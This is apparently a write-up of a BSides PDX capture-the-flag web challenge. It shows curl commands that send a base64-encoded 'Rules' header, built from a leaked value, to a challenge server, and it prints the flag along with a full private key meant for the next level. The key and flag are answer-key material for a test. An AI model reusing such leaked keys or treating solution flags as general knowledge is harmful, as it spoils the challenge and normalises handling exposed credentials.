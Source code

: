 # 100 - heading the right way (Solution)
## Finding the challenge

This challenge was hosted at http://heading-the-right-way.bsidespdxctf.party:8081/

## Solution

The challenge drops you on a website that only has a few links that are live. If you visit the rulesforwinnoing page you are greeted with

The Rules to Winning
1)cheat_to_win,2)dont_get_caught,3)never_admit,4)lawyer_up,5)buy_low,6)sell_high,7)everything_is_hackable,8)its_not_an_0_day_if_you_disclose_it,9)make_unverifiable_bold_claims 400 Bad Request 'Rules' header not found

The page is looking for a header called Rules

If we curl http://heading-the-right-way.bsidespdxctf.party:8081/rulesforwinning -H "Rules: yolo" you will be returned  Unable to parse base64

So the header is looking for a base64 encoded payload if we take the rules and base64 encode them and send them as the header.

`curl http://heading-the-right-way.bsidespdxctf.party:8081/rulesforwinning -H "Rules: MSljaGVhdF90b193aW4sMilkb250X2dldF9jYXVnaHQsMyluZXZlcl9hZG1pdCw0KWxhd3llcl91cCw1KWJ1eV9sb3csNilzZWxsX2hpZ2gsNylldmVyeXRoaW5nX2lzX2hhY2thYmxlLDgpaXRzX25vdF9hbl8wX2RheV9pZl95b3VfZGlzY2xvc2VfaXQsOSltYWtlX3VudmVyaWZpYWJsZV9ib2xkX2NsYWltcw==`

We get
>Got the super secure header figured out

The security page is leaking a value.

If we take what we did for the rules page and follow the same process of taking the leaked value base64 encoded it and submitt it we should get the flag. 

Now if we do
header=$(curl heading-the-right-way.bsidespdxctf.party:8081/security | base64)
headernospace="$(echo -e "${header}" | tr -d '[:space:]')"
curl localhost:8081/security -H "Rules: $headernospace" 

we will get the flag :)





## flag
```-----BEGIN PRIVATE KEY-----
	MIIEvQIBADANBgkqhkiG9w0BAQEFAASCBKcwggSjAgEAAoIBAQCpQ8VV1H1O6c5D
	8Fo/h0hMzjDtoG991q/d2NWFLHPhzKZ79bTzbfZQkyEKMujsEx3tLMZNxnaVGn5M
	flPebGC+tYOmovZNW6l7wwEcFBZFXXx4QmQhgWfSD/AwQaOIWw2rOijvzx5vYJuF
	W1GJbyPp3mDjNgzWzesD8Aal5MmlKmz3cJFVhcdQOesNzYhEttwVJER2uQ9xl74c
	YRoujbm1eKAJSG+i26Pj5CeRCZ2kL3xn76viUXr2gS2Sg03B2LKl6fNfKphdjw9E
	Js3Pji/H9USdc80UxjXC3midm6AGP2+fmrjQSBYW0kI4eU1IwfdnXJ2RaL9MhIMN
	JyzSt14hAgMBAAECggEADfJfmCriCFaLgF2VkhZ7hpiWv32wshW2d/kd3tNC2SAb
	t6sPNd+hpBH7bvOy7YDFvn0p+c6YhsCgF31xO6qCbjRWnKxgzw72cBQpSz78dsq1
	LtOJnJklDNHzYIaICvw1rB4msVvHjjXPmrVjiod11hdUtGQHustMyg5E/fZUBx/N
	fJsEOxRLepXoi4seAfVJ1i9yvKbQdhLD6iIJWco/1seKTDw43uy2O3xTkE8nEStH
	WQOU5BVNLOZSFZ6ulHIT041k0HflOGIGEte7tw77XoOpP7um3dnzpiQCEB9+M8op
	UQQ61VM8wCd4Z4CQWPk+ONyYV1zZR3ykMSDSOQ6yAQKBgQDRsQnXAdNP/vzurhXn
	Pq95aiCjx6p+rikBUZhHIw5WPVs7jdOPv1Mj78s9D8v0SRpAr4TJIjxHy7gZkTce
	9BBpe0XgD8jDGeOu2ekKIt4k4CV5gBggncPK0CvfVaN0c/j15KL6BBdw19L7IeJ8
	tZgNrEZVFHN/i+hWawkq4nL7aQKBgQDOpTE2b1uvHxw4m3d17TiCXHJT4QurFHDr
	NXQVnPZmE0LjWukQqgAZ7GQN73n+S2wPJL8uPSJqDizfGenBbcxx3BOPbeD+lyRu
	+bSKdrR6hsRtRtgjGg1YXCXSSEZggxZyX66+uVGK6pn9Lm/CFxIOzGY/9O/oskv5
	6xOb1CiN+QKBgGGz46nSp+r2HFP5uSruAkTINj0Zo08zRtfedN1wcBWusPumsZSg
	yNRNvpzM53MDPMA3B9/Pm9a4DSecidpaTetYDM7BjAGb5oJp9jNK28bCybM7BALu
	f3PYWxjMhkSUZMPtrCJiFan2Zc+tkiIZWqfERWEPDmG3hqH9bWAV8w1BAoGBAMYX
	RR3RkipFwF/jaJj7Vnhg9pfB29WcOsK+8xDk7q7bN/uKYnE/BenT2fYh4ugKlQPP
	ThWdNShFfm5AAP0TrDBZr8aGpnBnot1fMdqqAEiUeCfpCbhceP6DFx6FejF6eEIb
	xv+91pU8X3F82lVMmFrnRf15Z6HBiWOCHcH7lwTBAoGAJ2enLDc7aGxBSYvJHJlW
	UP8nGu8FbDtVaWJJyha12Q4bnPAQc2eElD7yTQFJ1ABuCDyHIj1WE/LkxYr8Wm0a
	xFkcjwjPBkD9CyVcG3EwwA47pyTTgSGQljxHt0hfLz/yc11K2nRQ18hQoufdKvuh
	LEHnsCZexdUfEQO2gnN7tLY=
	-----END PRIVATE KEY-----
You are going to need that key for 200 ;)
flag: BSidesPDX{H3ad3rs_ar3_n0t_S3cur1ty_C0ntr0ls}
```